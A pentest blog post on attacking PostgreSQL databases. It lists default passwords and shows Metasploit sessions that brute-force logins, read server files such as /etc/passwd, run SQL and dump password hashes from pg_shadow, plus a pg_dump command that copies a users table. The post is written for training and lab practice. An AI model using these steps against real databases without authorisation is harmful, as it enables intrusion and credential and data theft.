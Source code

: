 ```yaml
---
layout: post
title:  "Pentesters Guide to PostgreSQL Hacking"
date:   2018-06-25 13:49:33 +0000
tags: [Postgres, Databases, pentest, redteam, blueteam]
---
```

Another week another database… This time the juniors on the Team were crying out about PostgreSQL (or Postgres). Last week it was Oracle and likely next week will be MySQL? But depending on the application and the developers, different preferences or requirements — you can end up testing a different database each and every month of the year.

![](/blog/assets/postgres.png)

## Postgres at a network level
By default Postgres hosts its service on TCP/5432

Any budding pentester of threat hunter, should understand port scanning and service enumeration to confirm the existence and accessibility of Postgres; hence we are not going to cover that topic here.

## Postgres Targetting Accounts
The default username and service-name are both: **postgres**

However, a clever systems administrator can change this!

## Default Passwords
Below is a short abbreviated list of some common Postgres passwords. But you should always have you favourite password dictionary to hand if you require some brute-forcing.
```
postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password
```

## Postgres & Metasploit
Luckily there are a number of enumeration and exploitation modules in Metasploit to make Postgres hacking so much easier.

### Discovery of Database Credentials
The following Metasploit module can assist in the discovery of credentials by performing a brute force attack:
```
msf > auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(postgres_login) > run
[-]127.0.0.1:5432 - LOGIN FAILED: @template1 (Incorrect...
[-]127.0.0.1:5432 - LOGIN FAILED: tiger@template1 (Incorrect...
[-]127.0.0.1:5432 - LOGIN FAILED: postgres@template1 (Incorrect...
[-]127.0.0.1:5432 - LOGIN FAILED: password@template1 (Incorrect...
[+]127.0.0.1:5432 - LOGIN SUCCESSFUL: postgres:postgres@template1 
```
### Postgres_readfile
The postgres_readfile module, when provided with valid credentials (e.g. superuser account) for a PostgreSQL server, will read and display files of your choosing on the server.
```
msf > use auxiliary/admin/postgres/postgres_readfile 
msf auxiliary(postgres_readfile) > show options
Module options (auxiliary/admin/postgres/postgres_readfile):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD                   no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOST                      yes       The target address
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output
```
In order to configure the module, we set the PASSWORD and RHOST values, set RFILE as the file we wish to read and let the module run.
```
msf auxiliary(postgres_readfile) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(postgres_readfile) > set RFILE /etc/hosts 
RFILE => /etc/hosts
msf auxiliary(postgres_readfile) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(postgres_readfile) > run
Query Text: 'CREATE TEMP TABLE UnprtSRXpcuMpN (INPUT TEXT);
			COPY UnprtSRXpcuMpN FROM '/etc/hosts';
			SELECT * FROM UnprtSRXpcuMpN'
======================================================================================================================================
    input
    -----
    127.0.0.1       localhost
    127.0.1.1       ph33r_the_p05tgr35
   
[*] Auxiliary module execution completed
msf auxiliary(postgres_readfile) >
```

### postgres_sql

The postgres_sql module, when provided with valid credentials for a PostgreSQL server, will perform queries of your choosing and return the results.
```
msf > use auxiliary/admin/postgres/postgres_sql
msf auxiliary(postgres_sql) > show options
Module options (auxiliary/admin/postgres/postgres_sql):
   Name           Current Setting   Required  Description
   ----           ---------------   --------  -----------
   DATABASE       template1         yes       The database to authenticate against
   PASSWORD                         no        The password for the specified username. Leave blank for a random password.
   RETURN_ROWSET  true              no        Set to true to see query result sets
   RHOST                            yes       The target address
   RPORT          5432              yes       The target port
   SQL            select version()  no        The SQL query to execute
   USERNAME       postgres          yes       The username to authenticate as
   VERBOSE        false             no        Enable verbose output
```
The required configuration for this module is minimal as we will just set our PASSWORD and RHOST values, leave the default query to pull the server version, then let it run against our target.
```
msf auxiliary(postgres_sql) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(postgres_sql) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(postgres_sql) > run
Query Text: 'select version()'
==============================
    version
    -------
    PostgreSQL 8.3.8 on i486-pc-linux-gnu, compiled by GCC gcc-4.3.real (Ubuntu 4.3.2-1ubuntu11) 4.3.2
[*] Auxiliary module execution completed
msf auxiliary(postgres_sql) >
```
## Database Access
Kali Linux distributions contain by default the psql utility which allows a user to authenticate with a PostgreSQL database if the username and the password are already known.
```
# psql -h 192.168.100.11 -U postgres
```
![](/blog/assets/postgres_1.png)

## Retrieving Password Hashes
If you have the right levels of privilege (database admin) then you can use this one-liner, to dump all the user hashes in metasploit:
```
msf > auxiliary/scanner/postgres/postgres_hashdump
```
or manually connected to the database:
```
postgres-# SELECT usename, passwd FROM pg_shadow;
```
## Dumping the database
If you require to download the entire database across the network you can try the following from Kali Linux
```
# pg_dump --host=192.168.100.11 --username=postgres --password --dbname=template1 --table='users' -f output_pgdump
```
## Conclusion
You should now have the basic knowledge required for attacking a Postgres database!

There is usually a vulnerable Postgres install on the Metasploitable CTF ISOs. They are easily found on Bit-Torrent trackers as a legal download. Or download the Open Source package, and install it yourself in a VM, docker container, or your own system.

Remember, to only practise Postgres attacks on your own legally owned systems!

## Disclaimer
Netscylla or its staff cannot be held responsible for any abuse relating from this blog post. This post is to raise awareness in the possible design and implementation flaws from system and database administrators that may or may not include security weaknesses, which may compromise your enterprise database. **REMEMBER: It is illegal to attempt unauthorised access on any system you do not personally own, unless you have explicit permission in writing from the system owner!**




